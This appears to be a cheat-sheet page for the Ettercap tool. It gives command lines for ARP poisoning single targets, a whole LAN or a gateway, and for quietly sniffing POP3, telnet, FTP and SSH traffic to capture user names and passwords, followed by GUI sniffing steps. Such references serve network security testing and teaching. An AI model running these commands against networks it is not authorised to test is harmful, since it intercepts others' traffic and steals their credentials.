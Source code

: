 ## ETTERCAP
Ettercap is a comprehensive suite for man in the middle attacks. It features sniffing of live connections, content filtering on the fly and many other interesting tricks. It supports active and passive dissection of many protocols and includes many features for network and host analysis.

Usage: ettercap [OPTIONS] [TARGET1] [TARGET2]
TARGET is in the format MAC/IP/IPv6/PORTs (see the man for further detail)

Use the console interface and do not put the interface in promisc mode. You will see only your traffic.
      
    $ ettercap -Tp

Use the console interface, do not ARP scan the net and be quiet. The packet content will not be displayed, but user and passwords, as well as other messages, will be displayed.

    $ ettercap -Tzq

Will load the hosts list from /tmp/victims and perform an ARP poisoning attack against the two target. The list will be joined with the target and the resulting list is used for ARP poisoning.
 
    $ ettercap -T -j /tmp/victims -M arp /<Target_IP1>/ /<Target_IP2>/

Perform the ARP poisoning attack against all the hosts in the LAN. BE CAREFUL!

    $ ettercap -T -M arp // //

Perform the ARP poisoning against the gateway and the host in the lan between 2 and 10. The 'remote' option is needed to be able to sniff the remote traffic the hosts make through the gateway.

    $ ettercap -T -M arp:remote /<Target_IP>/ /<Target_IP_Range 2-10>/

Sniff only the pop3 protocol from every hosts.

    $ ettercap -Tzq //110

Sniff telnet, ftp and ssh connections to Target IP.

    $ ettercap -Tzq /<Target IP>/21,22,23

Prints the list of all available plugins 

    $ ettercap -P list

Ettercap GUI
    
    1. Select "Unified Sniffing" under Sniff on the top bar
    2. Select eth0
    3. open the menu “Sniff”
    4. select “Unified sniffing”
    5. open the “Start” menu, and select “Start sniffing”
    6. open the “View” menu, and select “Profiles”
